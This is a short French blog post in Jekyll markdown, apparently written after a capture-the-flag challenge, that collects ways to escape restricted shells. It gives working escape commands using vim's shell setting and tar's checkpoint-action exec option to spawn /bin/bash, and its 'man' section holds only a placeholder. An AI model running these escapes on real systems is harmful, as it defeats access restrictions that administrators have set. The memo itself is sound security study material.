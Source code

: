 ```yaml
---
layout: post
title: Restricted shells & shell escapes 
date: 2018-08-23 16:33:33
author: thms
tags: bash rbash rsh sh shell escapes vim tar zip 
---
```


# Restricted shells

Je suis récemment tombé sur un challenge qui nécessitait de sortir d'un shell restreint.

Celui-ci m'a permis de (re)découvrir de nombreuses façon de s'échapper d'un tel shell. 
Ce post a pour but d'être un mémo sur le sujet et de référencer toutes les manières connues permettant ce bypass.


# vim
{% highlight bash %}
:set shell=/bin/bash
:shell
{% endhighlight %}

# tar
{% highlight bash %}
tar --checkpoint-action=exec=/bin/bash --checkpoint=1 
{% endhighlight %}

# man
{% highlight bash %}
test
{% endhighlight %}

